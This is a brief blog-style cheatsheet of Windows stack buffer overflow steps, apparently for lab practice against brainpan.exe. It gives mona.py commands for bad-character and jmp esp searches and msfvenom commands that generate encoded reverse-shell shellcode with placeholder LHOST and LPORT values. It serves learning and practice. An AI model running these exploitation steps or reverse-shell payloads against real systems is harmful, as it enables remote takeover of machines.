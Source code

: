 ```yaml
---
title: "Buffer Overflow Cheatsheet"
date: 2021-12-01T00:20:30+01:00
categories:
  - Resources
tags:
  - Bufferoverflows
  - Cheatsheet
share: false
#layout: single
classes: wide
---
```


### After getting control of EIP

Set a **working folder** </br>
`!mona config -set workingfolder C:\Users\shroudri\%p`


Generate bytearray  
`!mona bytearray`

Generate bytearray excluding a certain badchar\
`!mona bytearray -cpb "\x00"` <br>
`!mona bytearray -cpb "\x00\x0a\etc"`


Compare ESP with generated bytearray to check for badchars automatically  
`!mona compare -f C:\Users\shroudri\%p\bytearray.bin -a <ESP_ADRESS> #(e.g 00F23930)`

Generate revshell with msfvenom  
`msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -f c LHOST=insertip LPORT=insrertport -b "\x00" EXITFUNC=thread`  
`msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -f c LHOST=insertip LPORT=insrertport -b "\x00\x0a\xaf" EXITFUNC=thread`  


List all available programs        
`!mona modules`

### Next step: We want to make EIP point to ESP
This command will find an instruction within a program to jump to the ESP (FFE4 == jmp_esp)   
`!mona find -s "\xFF\xE4" -m brainpan.exe`

Because shikata_ga_nai is being used, a few NOPs must be introduced between EIP and Shellcode   
`NOPS= "x90"*16`